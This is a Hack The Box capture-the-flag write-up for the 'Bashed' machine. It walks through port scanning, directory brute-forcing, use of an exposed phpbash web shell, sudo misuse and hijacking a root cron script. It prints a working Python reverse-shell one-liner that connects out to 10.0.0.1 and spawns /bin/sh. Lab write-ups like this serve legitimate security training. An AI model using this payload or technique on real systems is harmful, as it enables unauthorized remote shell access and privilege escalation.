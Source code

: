```yaml
---
layout: PostSimple
date: 2019-12-04
title:     "Hack The Box - Bashed"
tags: ['linux','easy','sudo','cron']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/118](https://www.hackthebox.eu/home/machines/profile/118)


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/9.png)

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/10.png)

I got Root!
